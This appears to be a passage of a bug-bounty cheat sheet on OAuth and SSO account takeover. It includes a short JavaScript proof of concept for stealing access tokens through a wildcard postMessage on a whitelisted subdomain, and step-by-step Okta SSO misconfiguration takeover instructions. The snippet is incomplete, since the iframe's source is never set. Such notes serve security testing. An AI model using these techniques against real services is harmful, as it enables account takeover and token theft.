{% embed url="https://hackerone.com/reports/46485" %}

{% embed url="https://infosecwriteups.com/oauth-misconfiguration-leads-to-full-account-takeover-22b032cb6732?source=---------1----------------------------" %}

### Exploit Post Messages

> Try To Use Whitelist Subdomain With Endpoint Contains postMessage(Msg,"\*"); In which Msg = window.location.href.split("#")\[1]; To Steal The Access Token

```http
1 - search About :-
var Msg = window.location.href.split("#")[1];
window.parent.postMessage(Msg,"*");
2 - There Isn't :-
X-Frame-Options Header
3 - Use This POC :-
var exploit_url = 'https://company.com/oauth?client_id=id&redirect_uri=
https://sub.company.com/postMsg.js';
var i = document.createElement('iframe');
document.body.appendChild(i);
window.addEventListener('oauth', function(Token) {alert(Token.data.name);
}, !1);
```

{% embed url="https://www.amolbaikar.com/facebook-oauth-framework-vulnerability/" %}

{% embed url="https://hackerone.com/reports/821896" %}

### ATO Using OKTA SSO Misconfiguration

* Suppose `victim@gmail.com` is a member of `VictimOrganization` on _target.com_.
* The attacker creates `AttackerOrganization` on _target.com_ and invites _`victim@gmail.com`_ as a member
* The attacker then sets up Okta and links it with their `AttackerOrganization`
* In their Okta instance, the attacker creates a user account with the email `victim@gmail.com`&#x20;
* Using this fake(attacker) Okta account linked to `victim@gmail.com`, the attacker logs into _target.com_ as `victim@gmail.com`&#x20;
* Since `victim@gmail.com` is also a member of `VictimOrganization` , the attacker is able to switch organizations within _target.com_, gaining unauthorized access to sensitive data and functionality.

{% embed url="https://rikeshbaniya.medium.com/account-takeover-using-sso-logins-fa35f28a358b" %}
